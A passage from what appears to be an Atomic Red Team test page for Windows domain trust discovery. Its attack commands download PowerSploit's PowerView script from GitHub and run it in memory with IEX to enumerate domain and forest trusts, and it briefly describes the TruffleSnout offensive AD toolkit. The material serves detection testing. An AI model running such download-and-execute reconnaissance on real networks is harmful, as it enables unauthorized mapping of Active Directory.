 **Supported Platforms:** Windows


**auto_generated_guid:** f974894c-5991-4b19-aaf5-7cc2fe298c5d






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainTrust -Verbose
```






<br/>
<br/>

## Atomic Test #7 - Get-ForestTrust with PowerView
Utilizing PowerView, run Get-ForestTrust to identify forest trusts. Upon execution, progress and info about forest trusts within the domain being scanned will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 58ed10e8-0738-4651-8408-3a3e9a526279






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Get-ForestTrust -Verbose
```






<br/>
<br/>

## Atomic Test #8 - TruffleSnout - Listing AD Infrastructure
Iterative AD discovery toolkit for offensive operators. Situational awareness and targeted low noise enumeration. Preference for OpSec.- https://github.com/dsnezhkov/TruffleSnout

**Supported Platforms:** Windows

